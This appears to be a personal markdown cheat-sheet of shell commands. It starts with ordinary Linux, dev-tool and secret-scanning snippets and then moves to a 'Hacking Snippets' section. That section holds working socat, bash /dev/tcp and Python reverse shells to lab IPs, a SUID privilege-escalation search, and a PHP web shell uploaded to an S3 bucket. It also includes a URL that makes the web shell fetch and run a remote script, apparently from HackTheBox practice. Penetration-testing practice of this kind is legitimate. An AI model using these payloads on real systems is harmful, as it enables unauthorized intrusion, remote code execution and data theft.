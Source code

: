 
### Linux Version
```
# The following commands can all find os name and version in Linux:
cat /etc/os-release
lsb_release -a
hostnamectl

# Find Linux kernel version
uname -r 
```
`usermod -aG sudo <USERNAME>  # add <USERNAME> to the sudoers group` 


Create a webserver with node
`npx http-server -p 9999`


Disable the CSS by pasting the following into the dev tools console
`var el = document.querySelectorAll('style,link'); for (var i=0; i<el.length; i++) {el[i].parentNode.removeChild(el[i]);};`


`brew install mitmproxy`
`pip3 install mitmproxy2swagger # Plugin to scrape an api of all its endpoints`


CMD: `zip -r <FILETOEXTRACT> $(find /opt/ibm/isim/ -name "*.jar")`


`grep MemTotal /proc/meminfo` - Get the total ram/Memory of the system


`for i in $(compgen -a); do alias $i ; done` # List all the aliases and the see what commmands they actually do



`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` # List of all SUID and SGID Executables - from : https://atom.hackstreetboys.ph/linux-privilege-escalation-suid-sgid-executables/



`watch -n 60 "date && free -h"` # Run two commands in watch at the same time every 60 seconds


### Regexes for vs code

`password(.*)"(.*)"`# find the term "password" followed by anything and then a pair of quotations marks with text within them
`auth(.*)"(.*)"`# find the term "auth" followed by anything and then a pair of quotations marks with text within them


`detect-secrets -C . scan > .secrets.basline` # Run detect secrts and make a basline file for the repo
`detect-secrets audit .secrets.baseline`

`trufflehog --regex <FULLPATHTOCODE>`


# HAcking Snippets



```
python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/sh")'
export TERM=xterm
ctl Z # abckgroun the terminal
stty raw -echo
fg + Enter # to Forground
--------------------------------------------
SO CAT SHELL

Reverse Shell
Victim Linux: socat exec:'bash -li',pty,stderr,setidsigint,sane tcp:10.10.16.2:1234
Victim Windows: socat TCP4:192.168.1.1:4443 EXEC:'cmd.exe',pipes
Attacker: socat file:`tty`,raw,echo=0 tcp-listen:1234

-------------Simple server python 3 
python3 -m http.server 9999
--------------------
tcpdump -i tun0 icmp 					# opens a listerner for incoming pings
--------------------------
msfvenom -l payload | grep node 			# look for node payloads
msfvenom -p
----------
bash -i >& /dev/tcp/10.10.16.2/9001 0>&1

echo 'import socket,os,pty;' >> script3.py 
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);' >> script3.py 
echo 's.connect(("10.10.16.2",4242));' >> script3.py 
echo 'os.dup2(s.fileno(),0);' >> script3.py 
echo 'os.dup2(s.fileno(),1);' >> script3.py 
echo 'os.dup2(s.fileno(),2);' >> script3.py 
echo 'pty.spawn("/bin/sh")' >> script3.py 

-------
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts  # add infor to osts file
----------------------------
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb -u http://thetoppers.htb # subdomain enumeration

Where... 
vhost : Uses VHOST for brute-forcing
-w : Path to the wordlist
-u : Specify the URL

Note: If using Gobuster version 3.2.0 and above we also have to add the --append-domain flag to our
command so that the enumeration takes into account the known vHost ( thetoppers.htb ) and appends it
to the words found in the wordlist ( word.thetoppers.htb ).

-------S3

└─# aws configure 				#  using an arbitrary value for all the fields, as sometimes the server is configured to not check authentication (still, it must be configured to something for aws to work).               
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp

aws --endpoint=http://s3.thetoppers.htb s3 ls # list all of the S3 buckets hosted by the server
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb  #se the ls command to list objects and common prefixes under the specified bucket.
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb

http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.105:8000/shell.sh|bash

```
